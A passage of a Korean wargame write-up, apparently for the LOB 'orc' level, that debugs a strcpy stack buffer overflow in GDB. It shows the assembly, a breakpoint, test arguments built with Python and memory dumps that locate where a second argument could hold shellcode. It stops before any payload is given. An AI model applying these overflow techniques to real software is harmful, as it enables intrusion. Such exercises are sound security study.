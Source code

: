 ```
0x80485ce <main+206>:	call   0x8048410 <printf>
0x80485d3 <main+211>:	add    %esp,8
0x80485d6 <main+214>:	leave  
0x80485d7 <main+215>:	ret    
0x80485d8 <main+216>:	nop    
0x80485d9 <main+217>:	nop    
0x80485da <main+218>:	nop    
0x80485db <main+219>:	nop    
0x80485dc <main+220>:	nop    
0x80485dd <main+221>:	nop    
0x80485de <main+222>:	nop    
0x80485df <main+223>:	nop    
End of assembler dump.
```
예 뭐 어셈 코드는 저렇습니다. 'ㅅ'a
```
0x80485b6 <main+182>:	mov    %edx,DWORD PTR [%eax]
0x80485b8 <main+184>:	push   %edx
0x80485b9 <main+185>:	lea    %eax,[%ebp-40]
0x80485bc <main+188>:	push   %eax
0x80485bd <main+189>:	call   0x8048440 <strcpy>
```
이렇게 되어있근염.   
그러면 `edx`에는 `argv[1]`이, `eax`에는 `buffer`이 들어가겠군요.
이번에는 직접 strcpy에다가 브레이크 포인트를 걸어서 데이터를 때려박고 edx에 뭐가 어떻게 들어가는지 한번 확인해봅시다.
<br>

```
(gdb) b *main+189
Breakpoint 1 at 0x80485bd
(gdb) r `python -c 'print "\xbf"*50'` `python -c 'print "A"*50'`
Starting program: /tmp/goblin/orc `python -c 'print "\xbf"*50'` `python -c 'print "A"*50'`

Breakpoint 1, 0x80485bd in main ()
```
브포브포 ★  
브레이크 포인트를 예쁘게 걸어주고 인자들을 예쁘게 넣어서 실행시켜봅니다. 실행시킨 후 `edx`를 확인해보면 두번째 인자에 쉘코드를 때려박을 수 있을지 없을지 각이 나올것만같네요.
<br>

```
(gdb) x/50x $edx
0xbffffbff:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf
0xbffffc0f:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf
0xbffffc1f:	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf	0xbfbfbfbf
0xbffffc2f:	0x4100bfbf	0x41414141	0x41414141	0x41414141
0xbffffc3f:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc4f:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc5f:	0x41414141	0x00000041	0x00000000	0x00000000
0xbffffc6f:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffc7f:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffc8f:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffc9f:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffcaf:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffcbf:	0x00000000	0x00000000
(gdb)
```
는 각이서부렸습니다. 두번째 인자로 들어가는 값들이 예쁘게 올라가있네요. 주소도 확인이 가능한 부분이니 조져봅시다. 가즈아ㅏㅏㅏㅏㅏㅏㅏ!!  

